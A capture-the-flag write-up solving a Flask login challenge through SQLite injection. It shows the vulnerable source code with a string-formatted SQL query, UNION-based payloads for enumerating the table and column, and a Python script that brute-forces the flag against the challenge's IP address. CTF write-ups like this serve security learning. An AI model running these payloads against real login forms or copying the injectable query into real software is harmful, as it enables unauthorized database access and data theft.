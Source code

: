 <h1>  7Billions and you have 0 chance  </h1>

<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/image3.PNG>

Enumerating through the website i found ```robots.txt```
And got this code:

```py
from flask import request, send_from_directory, render_template, send_file, Flask
import sqlite3

app = Flask(__name__)

app.static_folder="public"


def getUser(username, pwd):
    connection_obj = sqlite3.connect("database.db")
    cursor_obj = connection_obj.cursor()
    cursor_obj.execute(
        f"SELECT * FROM users WHERE username = '{username}' AND password = '{pwd}'"
    )

    result = cursor_obj.fetchone()
    print(result)
    if result:
        return True
    else:
        return False


@app.route("/", methods=["GET"])
def home():
    return render_template("index.html")


@app.route("/robots.txt", methods=["GET"])
def static_from_root():
    return send_from_directory(app.static_folder, request.path[1:])


@app.route("/source", methods=["GET"])
def get_source():
    return send_file(__file__)


@app.route("/admin", methods=["POST"])
def admin():
    username = request.form.get("username")
    password = request.form.get("password")

    if username and password and getUser(username, password):
        return render_template("auth.html")
    else:
        return render_template("404.html"), 404


@app.errorhandler(404)
def page_not_found(e):
    return render_template("404.html"), 404


app.run(host="0.0.0.0", port=8000)
```

It was obvious that it was SQLite injection, but to be sure, let's detect the injection point:
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture2.PNG>
after we put ```'``` we got this Internal server Error:
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture3.PNG>



Next, we need to find the number of columns using this payload:
```admin'UNION+SELECT+NULL,NULL,NULL--```
I found that there were only 3 columns through enumeration.
and when I got that the database has 3 columns, a new response got to us:```which is the valid one :)```
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture4.PNG>


<b>Here is the final take "there are 7 billions people and I have 0 chance,read it from the end"</b>

From that, we knew that it was boolean-based sqlite injection, so let's get to work:


first we need to find the name of the table using this query:
```username=admin'UNION+SELECT+tbl_name,NULL,NULL+FROM+sqlite_master+WHERE+tbl_name+NOT+LIKE+'sqlite_%'+AND+tbl_name+LIKE+'fla%'+--&password=asd```

throught enumerating the ```LIKE``` value we found that the table name is ```flag```.

after that we need to find the column name!
i honestly guessed that the coloumn name was ```flag``` i think thats has to do.
i used this query to guess it:
```admin'UNION+SELECT+flag,NULL,NULL+FROM+flag--```
and got a valid response:
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture5.PNG>


finally we have to exract the flag using this query:
```admin'UNION+SELECT+flag,NULL,NULL+FROM+flag+WHERE+flag+LIKE+'securinets{%'--```
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture6.PNG>

we have to keep enumerating the ```LIKE``` value until we get our full flag.
so i wrote this script to do the work

```py
from requests import *
from string import *
url = "http://51.12.211.165:8200/admin"
ans=""

pr="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!_{}"
for i in pr:
    data = {
    "username": "admin' UNION SELECT 0x660x6c0x610x67,NULL,NULL FROM flag WHERE flag LIKE 'securinets{luCK_"+(ans+i)+"%'--",
    "password": "asd"}

    p=post(url,data=data)
    if p.status_code==200:
        ans+=i
        print(ans)
```

running the script we got the flag: ```securinets{Luck_15_n00b5_b3l13f5}```

